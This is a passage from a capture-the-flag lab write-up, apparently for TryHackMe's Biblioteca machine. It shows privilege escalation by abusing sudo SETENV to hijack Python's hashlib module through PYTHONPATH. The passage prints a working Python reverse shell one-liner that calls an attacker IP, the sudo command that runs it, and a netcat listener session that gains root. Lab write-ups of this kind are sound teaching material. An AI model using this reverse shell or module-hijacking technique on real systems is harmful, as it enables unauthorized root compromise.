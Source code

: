 Here we see `SETENV`, which means we can set the environment variables while running the listed script as root! In this context, we see that `hasher.py` imports `hashlib.py`. 

Thus, we have the ability to create a fraudulent `hashlib.py` file containing reverse shell code that the user `h----` can execute as `root` via `hasher.py`.

First, we find `hashlib.py`:
```
h----@biblioteca:~$ find / -name hashlib.py 2>/dev/null
/snap/core20/1361/usr/lib/python3.8/hashlib.py
/snap/core20/1270/usr/lib/python3.8/hashlib.py
/snap/core18/2284/usr/lib/python3.6/hashlib.py
/snap/core18/2253/usr/lib/python3.6/hashlib.py
/usr/lib/python3/dist-packages/landscape/lib/hashlib.py
/usr/lib/python3/dist-packages/nacl/hashlib.py
/usr/lib/python3.8/hashlib.py

```

We then copy the script to  the `/tmp` directory:
```
h----@biblioteca:/usr/lib/python3.8$ cp hashlib.py /tmp
h----@biblioteca:/usr/lib/python3.8$ cd /tmp
```

Next, we edit our "new" `hashlib.py` script to contain a basic python reverse shell:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attack-ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Finally, we take advantage of our `SETENV` privileges to run the script with an added `PYTHONPATH` argument. `PYTHONPATH` is an environmental variable that adds an additional directory (or directories) that Python checks for modules and packages at runtime. Conventionally, this is used to include custom Python libraries that are otherwise inappropriate to place in the default global location.

```
h----@biblioteca:~$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/h----/hasher.py
```

```
╭─[kali-bot] as virtualtack in ~
╰──➤ nc -lvnp <port>                        
listening on [any] <port> ...
connect to [<my=ip>] from (UNKNOWN) [<target-ip>] 35176
# whoami
whoami
root
# ls /root 
ls /root
root.txt  snap
# cat /root/root.txt
cat /root/root.txt
THM{P-----------------------}

```
